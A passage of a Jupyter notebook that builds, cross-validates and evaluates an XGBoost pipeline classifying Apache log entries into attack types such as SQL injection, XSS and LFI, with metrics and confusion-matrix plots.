joblib.dump(target_encoder, "target_encoder.pkl")

['target_encoder.pkl']

---
## ⚖️ Section 12 — Scaling

`StandardScaler` is fitted **only on training data** and applied to  
validation and test sets — preventing data leakage.

> Note: XGBoost is tree-based and theoretically scale-invariant,  
> but scaling improves compatibility when the pipeline is used with  
> other estimators or for feature importance comparisons.


In [21]:
scaler = StandardScaler()
X_train_sc = scaler.fit_transform(X_train)
X_val_sc   = scaler.transform(X_val)
X_test_sc  = scaler.transform(X_test)

print("✅ Scaling applied (fitted on train only).")
print(f"   X_train_sc : {X_train_sc.shape}  mean≈{X_train_sc.mean():.4f}  std≈{X_train_sc.std():.4f}")
print(f"   X_val_sc   : {X_val_sc.shape}")
print(f"   X_test_sc  : {X_test_sc.shape}")


✅ Scaling applied (fitted on train only).
   X_train_sc : (69999, 33)  mean≈-0.0000  std≈1.0000
   X_val_sc   : (15001, 33)
   X_test_sc  : (15000, 33)


In [22]:
# import joblib

# joblib.dump(scaler, "scaler.pkl")

---
## 🏗️ Section 13 — Unified Machine Learning Pipeline

The `ThreatDetectionPipeline` encapsulates the **complete** preprocessing  
and inference workflow as a single sklearn `Pipeline` object.

```
DataCleanerTransformer
  → FeatureEngineeringTransformer
    → CategoricalEncoderTransformer
      → ColumnTransformer (feature selection + scaling)
        → XGBClassifier
```

**After training, calling `pipeline.predict(raw_df)` requires only  
the original 10 raw Apache log columns — no manual preprocessing.**


In [23]:
class FeatureSelector(BaseEstimator, TransformerMixin):
    """
    Selects the predefined FEATURE_COLS from an engineered DataFrame
    and returns a float32 numpy array safe for XGBoost.
    """
    def __init__(self, feature_cols: list):
        self.feature_cols = feature_cols

    def fit(self, X: pd.DataFrame, y=None):
        return self

    def transform(self, X: pd.DataFrame, y=None) -> np.ndarray:
        available = [c for c in self.feature_cols if c in X.columns]
        if len(available) < len(self.feature_cols):
            missing = set(self.feature_cols) - set(available)
            logger.warning(f"[Selector] Missing columns filled with 0: {missing}")
        arr = X.reindex(columns=self.feature_cols, fill_value=0)
        return arr.values.astype(np.float32)


def build_pipeline(xgb_params: dict = None) -> Pipeline:
    """
    Assemble and return the complete ThreatDetectionPipeline.

    Parameters
    ----------
    xgb_params : dict, optional
        XGBClassifier parameters. Defaults to XGB_PARAMS from config.

    Returns
    -------
    sklearn.pipeline.Pipeline
        Untrained pipeline ready for .fit(X_raw, y).
    """
    params = xgb_params or XGB_PARAMS.copy()
    # Remove early_stopping_rounds from params (passed at fit time via callbacks)
    early_stop_rounds = params.pop("early_stopping_rounds", 40)

    pipeline = Pipeline(steps=[
        ("cleaner",   DataCleanerTransformer()),
        ("feat_eng",  FeatureEngineeringTransformer()),
        ("encoder",   CategoricalEncoderTransformer()),
        ("selector",  FeatureSelector(feature_cols=FEATURE_COLS)),
        ("scaler",    StandardScaler()),
        ("xgb",       XGBClassifier(**params, num_class=NUM_CLASSES)),
    ])
    pipeline._early_stop_rounds = early_stop_rounds
    return pipeline


threat_pipeline = build_pipeline()
print("✅ ThreatDetectionPipeline assembled.")
print("\nPipeline steps:")
for name, step in threat_pipeline.steps:
    print(f"   {name:<12} → {type(step).__name__}")


✅ ThreatDetectionPipeline assembled.

Pipeline steps:
   cleaner      → DataCleanerTransformer
   feat_eng     → FeatureEngineeringTransformer
   encoder      → CategoricalEncoderTransformer
   selector     → FeatureSelector
   scaler       → StandardScaler
   xgb          → XGBClassifier


In [24]:
# import joblib

# joblib.dump(threat_pipeline.named_steps["xgb"], "xgbmodel.pkl")

---
## 🚀 Section 14 — XGBoost Training

Training strategy:
- **Multi-class** (`objective="multi:softprob"`, `num_class=9`)  
- **Early stopping** on validation `mlogloss` (stops if no improvement for 40 rounds)  
- **5-fold stratified cross-validation** on training fold for robust metric estimates  
- **Class weighting** via `sample_weight` proportional to inverse class frequency  


In [25]:
# ── Prepare raw DataFrames for pipeline (pipeline expects DataFrame input) ────
df_clean_indexed = df_clean.reset_index(drop=True)
y_all = target_encoder.fit_transform(df_clean_indexed[TARGET_COL])

# Stratified splits on the cleaned (but not yet feature-engineered) DataFrame
df_trainval, df_test_raw, y_trainval_raw, y_test_raw = train_test_split(
    df_clean_indexed, y_all,
    test_size=TEST_RATIO, random_state=RANDOM_STATE, stratify=y_all
)
df_train_raw, df_val_raw, y_train_raw, y_val_raw = train_test_split(
    df_trainval, y_trainval_raw,
    test_size=VAL_RATIO / (TRAIN_RATIO + VAL_RATIO),
    random_state=RANDOM_STATE,
    stratify=y_trainval_raw
)

print(f"✅ Raw DataFrames prepared for pipeline:")
print(f"   Train : {df_train_raw.shape}  |  y: {y_train_raw.shape}")
print(f"   Val   : {df_val_raw.shape}  |  y: {y_val_raw.shape}")
print(f"   Test  : {df_test_raw.shape}  |  y: {y_test_raw.shape}")


✅ Raw DataFrames prepared for pipeline:
   Train : (69999, 10)  |  y: (69999,)
   Val   : (15001, 10)  |  y: (15001,)
   Test  : (15000, 10)  |  y: (15000,)


In [26]:
# ── Compute sample weights for class imbalance ───────────────────────────────
from sklearn.utils.class_weight import compute_sample_weight

sample_weights_train = compute_sample_weight(class_weight="balanced", y=y_train_raw)
print(f"✅ Sample weights computed. Shape: {sample_weights_train.shape}")
print(f"   Weight range: [{sample_weights_train.min():.4f}, {sample_weights_train.max():.4f}]")


✅ Sample weights computed. Shape: (69999,)
   Weight range: [0.3175, 2.7777]


In [27]:
# ── 5-Fold Cross-Validation (on training set) ────────────────────────────────
# Root cause of the original AttributeError:
#   cv_pipeline[:-1].transform() was called BEFORE cv_pipeline[:-1].fit(),
#   so FeatureEngineeringTransformer.ip_stats_ was never set.
# Fix: fit each fold pipeline FIRST, then transform for the eval_set.

print("⏳ Running 5-fold cross-validation on training data...")

skf = StratifiedKFold(n_splits=5, shuffle=True, random_state=RANDOM_STATE)
cv_scores = []

for fold, (tr_idx, vl_idx) in enumerate(skf.split(df_train_raw, y_train_raw), 1):
    X_cv_tr = df_train_raw.iloc[tr_idx].reset_index(drop=True)
    y_cv_tr = y_train_raw[tr_idx]
    X_cv_vl = df_train_raw.iloc[vl_idx].reset_index(drop=True)
    y_cv_vl = y_train_raw[vl_idx]
    sw_cv   = compute_sample_weight("balanced", y=y_cv_tr)

    # Build a fresh pipeline for this fold
    fold_pipeline = build_pipeline()

    # Step 1: fit all pre-XGB steps on training fold ONLY
    fold_pipeline[:-1].fit(X_cv_tr, y_cv_tr)

    # Step 2: transform validation fold (ip_stats_ now exists)
    X_cv_vl_transformed = fold_pipeline[:-1].transform(X_cv_vl)

    # Step 3: fit the full pipeline (XGB uses eval_set for early stopping)
    fold_pipeline.fit(
        X_cv_tr,
        y_cv_tr,
        xgb__sample_weight=sw_cv,
        xgb__eval_set=[(X_cv_vl_transformed, y_cv_vl)],
        xgb__verbose=False,
    )

    y_cv_pred = fold_pipeline.predict(X_cv_vl)
    fold_f1 = f1_score(y_cv_vl, y_cv_pred, average="weighted")
    cv_scores.append(fold_f1)
    print(f"   Fold {fold}: Weighted F1 = {fold_f1:.4f}")

print(f"\n✅ Cross-validation complete.")
print(f"   Mean Weighted F1 : {np.mean(cv_scores):.4f} ± {np.std(cv_scores):.4f}")


⏳ Running 5-fold cross-validation on training data...


INFO: [Cleaner] Cleaning complete. Output shape: (55999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (14000, 10)
INFO: [Cleaner] Cleaning complete. Output shape: (55999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (14000, 10)


   Fold 1: Weighted F1 = 0.9372


INFO: [Cleaner] Cleaning complete. Output shape: (55999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (14000, 10)
INFO: [Cleaner] Cleaning complete. Output shape: (55999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (14000, 10)


   Fold 2: Weighted F1 = 0.9413


...

   Fold 3: Weighted F1 = 0.9418


INFO: [Cleaner] Cleaning complete. Output shape: (55999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (14000, 10)
INFO: [Cleaner] Cleaning complete. Output shape: (55999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (14000, 10)


   Fold 4: Weighted F1 = 0.9425


INFO: [Cleaner] Cleaning complete. Output shape: (56000, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (13999, 10)
INFO: [Cleaner] Cleaning complete. Output shape: (56000, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (13999, 10)


   Fold 5: Weighted F1 = 0.9412

✅ Cross-validation complete.
   Mean Weighted F1 : 0.9408 ± 0.0019


In [28]:
# ── Final Model Training on Full Training Set ────────────────────────────────
# Same pattern as the CV fix:
#   1. Fit all pre-XGB steps first so ip_stats_ is populated.
#   2. Transform val/train for eval_set.
#   3. Fit the complete pipeline (XGB step uses the pre-transformed eval_set).

print("⏳ Training final ThreatDetectionPipeline on full training split...")
print(f"   Training rows : {len(df_train_raw):,}")
print(f"   Features      : {len(FEATURE_COLS)}")
print(f"   Classes       : {NUM_CLASSES}")

threat_pipeline = build_pipeline()

# ── Step 1: Fit all pre-XGB steps on training data ───────────────────────────
threat_pipeline[:-1].fit(df_train_raw, y_train_raw)

# ── Step 2: Pre-transform train + val for eval_set ────────────────────────────
X_train_transformed = threat_pipeline[:-1].transform(df_train_raw)
X_val_transformed   = threat_pipeline[:-1].transform(df_val_raw)
print(f"   Transformed train shape : {X_train_transformed.shape}")
print(f"   Transformed val shape   : {X_val_transformed.shape}")

# ── Step 3: Fit the full pipeline (XGB uses pre-transformed eval_set) ─────────
threat_pipeline.fit(
    df_train_raw,
    y_train_raw,
    xgb__sample_weight=sample_weights_train,
    xgb__eval_set=[
        (X_train_transformed, y_train_raw),
        (X_val_transformed,   y_val_raw),
    ],
    xgb__verbose=50,
)

print("\n✅ Final model trained.")
xgb_model = threat_pipeline.named_steps["xgb"]
print(f"Trees used: {xgb_model.n_estimators}")

print(hasattr(xgb_model, "best_iteration"))

⏳ Training final ThreatDetectionPipeline on full training split...
   Training rows : 69,999
   Features      : 33
   Classes       : 9


INFO: [Cleaner] Cleaning complete. Output shape: (69999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (69999, 10)
INFO: [Cleaner] Cleaning complete. Output shape: (15001, 10)


   Transformed train shape : (69999, 33)
   Transformed val shape   : (15001, 33)


INFO: [Cleaner] Cleaning complete. Output shape: (69999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']


[0]	validation_0-mlogloss:2.05509	validation_1-mlogloss:2.05541
[50]	validation_0-mlogloss:0.49728	validation_1-mlogloss:0.50874
[100]	validation_0-mlogloss:0.28826	validation_1-mlogloss:0.30131
[150]	validation_0-mlogloss:0.22552	validation_1-mlogloss:0.24059
[200]	validation_0-mlogloss:0.19280	validation_1-mlogloss:0.21181
[250]	validation_0-mlogloss:0.17110	validation_1-mlogloss:0.19554
[300]	validation_0-mlogloss:0.15597	validation_1-mlogloss:0.18644
[350]	validation_0-mlogloss:0.14201	validation_1-mlogloss:0.17915
[400]	validation_0-mlogloss:0.13034	validation_1-mlogloss:0.17360
[450]	validation_0-mlogloss:0.12002	validation_1-mlogloss:0.16956
[500]	validation_0-mlogloss:0.11043	validation_1-mlogloss:0.16625
[550]	validation_0-mlogloss:0.10213	validation_1-mlogloss:0.16367
[600]	validation_0-mlogloss:0.09466	validation_1-mlogloss:0.16174
[650]	validation_0-mlogloss:0.08830	validation_1-mlogloss:0.16018
[700]	validation_0-mlogloss:0.08244	validation_1-mlogloss:0.15899
[750]	validat

---
## 📊 Section 15 — Model Evaluation

Comprehensive evaluation on the **held-out test set** (never seen during training):

- Accuracy, Precision, Recall, F1 (micro / macro / weighted)  
- Balanced Accuracy  
- Full Classification Report  
- Confusion Matrix Heatmap  
- Class-wise Performance Bar Chart  


In [29]:
# ── Test Set Predictions ─────────────────────────────────────────────────────
y_pred      = threat_pipeline.predict(df_test_raw)
y_pred_prob = threat_pipeline.predict_proba(df_test_raw)

# ── Metrics ───────────────────────────────────────────────────────────────────
acc      = accuracy_score(y_test_raw, y_pred)
bal_acc  = balanced_accuracy_score(y_test_raw, y_pred)
prec_w   = precision_score(y_test_raw, y_pred, average="weighted", zero_division=0)
rec_w    = recall_score(y_test_raw, y_pred, average="weighted", zero_division=0)
f1_w     = f1_score(y_test_raw, y_pred, average="weighted", zero_division=0)
f1_mac   = f1_score(y_test_raw, y_pred, average="macro", zero_division=0)
f1_mic   = f1_score(y_test_raw, y_pred, average="micro", zero_division=0)

print("=" * 60)
print("  TEST SET EVALUATION RESULTS")
print("=" * 60)
print(f"  Accuracy             : {acc:.4f}  ({acc*100:.2f}%)")
print(f"  Balanced Accuracy    : {bal_acc:.4f}")
print(f"  Precision (weighted) : {prec_w:.4f}")
print(f"  Recall    (weighted) : {rec_w:.4f}")
print(f"  F1        (weighted) : {f1_w:.4f}")
print(f"  F1        (macro)    : {f1_mac:.4f}")
print(f"  F1        (micro)    : {f1_mic:.4f}")
print("=" * 60)

print("\n📋 Classification Report:")
print(classification_report(
    y_test_raw, y_pred,
    target_names=CLASS_NAMES,
    digits=4,
    zero_division=0
))


INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)
INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)


  TEST SET EVALUATION RESULTS
  Accuracy             : 0.9431  (94.31%)
  Balanced Accuracy    : 0.9505
  Precision (weighted) : 0.9433
  Recall    (weighted) : 0.9431
  F1        (weighted) : 0.9431
  F1        (macro)    : 0.9474
  F1        (micro)    : 0.9431

📋 Classification Report:
                     precision    recall  f1-score   support

  benign_suspicious     0.9066    0.8671    0.8864      2250
         bruteforce     0.9325    0.9900    0.9604       600
  command_injection     0.8484    0.8767    0.8623       600
directory_traversal     0.9893    0.9667    0.9778      1050
                lfi     0.9179    0.9500    0.9337      1200
             normal     0.9288    0.9364    0.9326      5250
                rfi     0.9905    0.9914    0.9910      1050
      sql_injection     0.9899    0.9760    0.9829      1500
                xss     1.0000    1.0000    1.0000      1500

           accuracy                         0.9431     15000
          macro avg     0.9449    0.9

[[1951    5   10    0    4  280    0    0    0]
 [   0  594    2    0    1    3    0    0    0]
 [   5    2  526    2   14   45    1    5    0]
 [   0    0    4 1015   30    0    0    1    0]
 [   3    4    7    4 1140   33    9    0    0]
 [ 190   31   61    0   43 4916    0    9    0]
 [   0    0    0    0    9    0 1041    0    0]
 [   3    1   10    5    1   16    0 1464    0]
 [   0    0    0    0    0    0    0    0 1500]]




✅ Confusion matrix rendered.


In [30]:
# ── Confusion Matrix ──────────────────────────────────────────────────────────
cm = confusion_matrix(y_test_raw, y_pred)
print(cm)
cm_norm = cm.astype(float) / cm.sum(axis=1, keepdims=True)

fig, axes = plt.subplots(1, 2, figsize=(18, 7))
fig.suptitle("Confusion Matrix — Test Set", fontsize=14, fontweight="bold")

# Absolute counts
ax = axes[0]
sns.heatmap(cm, annot=True, fmt="d", cmap="Blues",
            xticklabels=CLASS_NAMES, yticklabels=CLASS_NAMES,
            linewidths=0.5, ax=ax, cbar=True)
ax.set_title("Absolute Counts")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

# Normalized (recall per class)
ax = axes[1]
sns.heatmap(cm_norm, annot=True, fmt=".2%", cmap="RdYlGn",
            xticklabels=CLASS_NAMES, yticklabels=CLASS_NAMES,
            linewidths=0.5, vmin=0, vmax=1, ax=ax, cbar=True)
ax.set_title("Row-Normalized (Recall per Class)")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

plt.tight_layout()
plt.savefig(r"D:\c4\results\confusion_matrix.png", bbox_inches="tight", dpi=110)

plt.show()
print("✅ Confusion matrix rendered.")


[[1951    5   10    0    4  280    0    0    0]
 [   0  594    2    0    1    3    0    0    0]
 [   5    2  526    2   14   45    1    5    0]
 [   0    0    4 1015   30    0    0    1    0]
 [   3    4    7    4 1140   33    9    0    0]
 [ 190   31   61    0   43 4916    0    9    0]
 [   0    0    0    0    9    0 1041    0    0]
 [   3    1   10    5    1   16    0 1464    0]
 [   0    0    0    0    0    0    0    0 1500]]




✅ Confusion matrix rendered.


In [32]:
# ── Confusion Matrix ──────────────────────────────────────────────────────────
cm = confusion_matrix(y_test_raw, y_pred)
print(cm)

# Remove row 0 and column 0
cm = cm[1:, 1:]

# Remove class name 0
class_names = CLASS_NAMES[1:]

cm_norm = cm.astype(float) / cm.sum(axis=1, keepdims=True)

fig, axes = plt.subplots(1, 2, figsize=(18, 7))
fig.suptitle("Confusion Matrix — Test Set", fontsize=14, fontweight="bold")

# Absolute counts
ax = axes[0]
sns.heatmap(
    cm,
    annot=True,
    fmt="d",
    cmap="Blues",
    xticklabels=class_names,
    yticklabels=class_names,
    linewidths=0.5,
    ax=ax,
    cbar=True
)
ax.set_title("Absolute Counts")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

# Normalized (recall per class)
ax = axes[1]
sns.heatmap(
    cm_norm,
    annot=True,
    fmt=".2%",
    cmap="RdYlGn",
    xticklabels=class_names,
    yticklabels=class_names,
    linewidths=0.5,
    vmin=0,
    vmax=1,
    ax=ax,
    cbar=True
)
ax.set_title("Row-Normalized (Recall per Class)")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

plt.tight_layout()
plt.savefig(r"D:\c4\results\confusion_matrix.png", bbox_inches="tight", dpi=110)

plt.show()
print("✅ Confusion matrix rendered.")



✅ Class-wise performance chart rendered.


In [33]:
# ── Class-wise Performance Chart ─────────────────────────────────────────────
report_dict = {}
report_str = classification_report(
    y_test_raw, y_pred, target_names=CLASS_NAMES,
    output_dict=True, zero_division=0
)
metrics_df = pd.DataFrame(report_str).T.loc[CLASS_NAMES, ["precision", "recall", "f1-score"]]
metrics_df = metrics_df.astype(float)

fig, ax = plt.subplots(figsize=(14, 6))
x = np.arange(len(CLASS_NAMES))
width = 0.25

bars1 = ax.bar(x - width,     metrics_df["precision"],  width, label="Precision", color="#3498db", edgecolor="white")
bars2 = ax.bar(x,             metrics_df["recall"],     width, label="Recall",    color="#2ecc71", edgecolor="white")
bars3 = ax.bar(x + width,     metrics_df["f1-score"],   width, label="F1-Score",  color="#e74c3c", edgecolor="white")

ax.set_title("Per-Class Precision / Recall / F1 — Test Set", fontsize=13, fontweight="bold")
ax.set_xlabel("Attack Class")
ax.set_ylabel("Score")
ax.set_xticks(x)
ax.set_xticklabels(CLASS_NAMES, rotation=25, ha="right")
ax.set_ylim(0, 1.10)
ax.legend(fontsize=10)
ax.axhline(0.90, color="gray", linestyle="--", linewidth=0.8, alpha=0.7, label="0.90 target")

for bar_group in [bars1, bars2, bars3]:
    for bar in bar_group:
        h = bar.get_height()
        ax.text(bar.get_x() + bar.get_width() / 2, h + 0.01,
                f"{h:.2f}", ha="center", va="bottom", fontsize=7)

plt.tight_layout()
plt.savefig(r"D:\c4\results\class_performance.png", bbox_inches="tight", dpi=110)

plt.show()
print("✅ Class-wise performance chart rendered.")


